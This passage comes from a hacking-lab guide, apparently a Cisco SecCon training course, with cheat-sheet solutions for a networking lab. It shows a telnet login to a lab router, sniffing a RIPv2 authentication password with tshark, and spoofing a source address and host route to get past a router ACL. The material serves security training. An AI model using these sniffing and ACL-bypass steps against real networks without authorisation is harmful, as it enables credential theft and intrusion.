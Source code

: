 ------------------------------------------------------------------------

Log in

    root@kali:~/becoming-a-hacker/labs/networking# telnet iosv-r1

                                    NOTICE

      Use of this system is RESTRICTED. Access is limited to individuals
      authorized by Cisco SecCon...

    Username: admin
    Password:
    ...
    iosv-r1#
</pre>
{% endcapture %}
{% include cheat.html text=text %}

------------------------------------------------------------------------

### Bonus

Do this without changing the router's running configuration to bypass
the configured ACL or using ARP cache poisoning.

{% capture text %}
<pre>
Discover the RIPv2 Password

    root@kali:~/becoming-a-hacker/labs/networking# tshark -i eth2 -V udp port 520
    Capturing on 'eth2'
    Frame 1: 106 bytes on wire (848 bits), 106 bytes captured (848 bits) on interface 0
        Interface id: 0
    ...
    Routing Information Protocol
        Command: Response (2)
        Version: RIPv2 (2)
        Authentication: Simple Password
            Authentication type: Simple Password (2)
            Password: <removed>

------------------------------------------------------------------------

Configure IP Address for Overridden Route

    root@kali:~/becoming-a-hacker/labs/networking# ip route
    default via 10.1.1.1 dev eth1
    169.254.169.254 via 10.1.0.100 dev eth0
    10.1.0.0/24 dev eth0  proto kernel  scope link  src 10.1.0.104
    10.1.1.0/24 dev eth1  proto kernel  scope link  src 10.1.1.2
    10.1.2.0/24 dev eth2  proto kernel  scope link  src 10.1.2.2
    10.1.4.248/29 via 10.1.0.254 dev eth0
    seccon@pod-XX-kali:~/becoming-a-hacker/labs/networking$ sudo ip address add 10.1.1.5/32 dev eth2
    seccon@pod-XX-kali:~/becoming-a-hacker/labs/networking$ sudo ip route add 10.1.3.1/32 via 10.1.2.1 src 10.1.1.5
    seccon@pod-XX-kali:~/becoming-a-hacker/labs/networking$ ip route
    default via 10.1.1.1 dev eth1
    169.254.169.254 via 10.1.0.100 dev eth0
    10.1.0.0/24 dev eth0  proto kernel  scope link  src 10.1.0.104
    10.1.1.0/24 dev eth1  proto kernel  scope link  src 10.1.1.2
    10.1.2.0/24 dev eth2  proto kernel  scope link  src 10.1.2.2
    10.1.3.1 via 10.1.2.1 dev eth2  src 10.1.1.5
    10.1.4.248/29 via 10.1.0.254 dev eth0
